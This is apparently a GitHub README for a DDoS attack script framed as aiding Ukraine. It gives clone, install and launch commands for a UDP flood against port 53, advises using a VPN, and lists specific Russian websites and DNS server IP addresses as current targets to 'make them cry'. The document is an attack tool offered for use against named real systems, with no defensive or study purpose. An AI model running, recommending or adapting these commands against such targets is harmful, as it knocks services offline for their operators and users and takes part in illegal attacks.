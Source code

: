 

<h1 align="center">DDoS Attack Script to help Ukraine</h1>




<p align="center">You are advised to use a vpn! Please attack only russian websites.</p>





### Getting Started

** If you dont have metasploit or any other tool you can use this tool

**Clone and Install Script**

```console
git clone https://github.com/carlostkd/DoS_Attack.git
cd DoS_Attack
pip3 install -r requirements.txt
```

**Launch Script**



* Server/Home:
```console
python3 start.py udp <ip>:53 1 100
```

currently dns targets make them cry!
```console
https://ddos-guard.net/ru
https://stormwall.pro/
https://qrator.net/ru/
https://solidwall.ru/
194.54.14.185:53
194.54.14.187:53
194.67.7.1:53
194.67.2.109:53
```






